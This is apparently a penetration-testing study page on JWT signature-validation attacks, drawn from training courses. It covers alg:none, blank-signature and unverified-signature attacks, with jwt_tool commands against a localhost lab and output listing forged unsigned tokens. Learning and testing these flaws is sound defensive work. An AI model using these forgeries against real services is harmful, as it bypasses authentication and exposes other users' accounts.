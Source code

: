 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Signature Validation

Servers don't store any JWT-related information, thus, **they don't know anything about its contents**.

## None Algorithm

After obtaining a JWT, we can start by auditing it by using an endpoint which process the token in some way, i.e., sends back different responses if the token is and it isn't present (Figure 1).

The JWT header contains an `alg` parameter which tells the server which algorithm was used to sign the token, i.e., which alogirthm it needs to use when veryfing the signature. **This is inherently flawed as it is user-controlled**. JWTs can be also left unsigned using `"alg":"none"`, aka _**unsecure JWT**_. Servers usually reject this tokens, but since this relies on string parsing, it can be obfuscated.

{% hint style="danger" %}
Even if the token is unsigned, **the payload part must end with a trailing dot**.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation.png" alt=""><figcaption><p>Figure 1: Finding an appropriate endpoint.</p></figcaption></figure>

We can then audit the JWT (Figure 2).

{% code overflow="wrap" %}
```bash
$ jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0X3RjbUBnbWFpbC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxOTI5NjM4OCwiZXhwIjoxNzE5OTAxMTg4fQ.BlO4H5UQM_maTkbRtwBhGags2DSIXxOI-mvUW1A4IRBb0VLshF_xIP74Rm-e1BjhyCKHqIuRp9GKRlse4CgY2CwpiNYbDFrbnYLNvfqzOoc1VRs-sUbhpq24h4mIZK1OJ3Jktd3fwMWEd1MolUFtO8WgaI0NVXwdi0jStFVXbnwZ0MU-HzOW7sK1aUCBuI6hAqrsZMf0iXYl5qhjGIDQ8VLcOPAhdr4-Yf-S4B2dhxjx2dxFZYZHvZAeZ4FHEkJa-IlDCeE_OmIKyQKF_03CRmKB0KHrX5TBxgitzDraSgoeKjeI-E8Zz7cchxK53otrD0tKbNEHC_N2p1cGrts_BQ' -M at
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_1.png" alt=""><figcaption><p>Figure 2: Auditing the JWT using <code>jwt_tool</code>.</p></figcaption></figure>

We could then use Burp's [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension to validate the `alg:none` vulnerability (Figure 3 & 4).

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_2.png" alt=""><figcaption><p>Figure 3: Validating the <code>alg:none</code> attack.</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_3.png" alt=""><figcaption><p>Figure 4: The server sends a <code>200</code> without validating the JWT signature (BOLA).</p></figcaption></figure>

## Blank Signature

We can generate a token without a signature and see how the server responds.

> _The below example is based on APISEC University's course_ [_API Penetration Testing_](https://www.apisecuniversity.com/courses/api-penetration-testing)_._

{% code overflow="wrap" %}
```bash
$ jwt_tool.py <JWT> -X a

Original JWT:

jwttool_a7333a823ae2439cb9a1f625cf57874a - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_ba16d4490898e1a275865d6054d29218 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_933d31b931b0cde418923bd086cb24b8 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_779c72e9bb024b8feebb000aaf8f8b96 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.

# Copy this token to a request and see how it responds
```
{% endcode %}

## Arbitraty Signature

JWT libraries usually provide 2 methods, one for verification and one for decoding. For example, Node.js's `jsonwebtoken` library has the `verify()` and `decode()` methods. If a developer only use the latter the application won't verify the signature at all. In this case, it is possible to modify a claim directly (Figure 5).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../.gitbook/assets/jwt_arbitraty_sign.png" alt=""><figcaption><p>Figure 5: Modifying the <code>sub</code> claim results in an altered signature which is accepted by the server.</p></figcaption></figure>

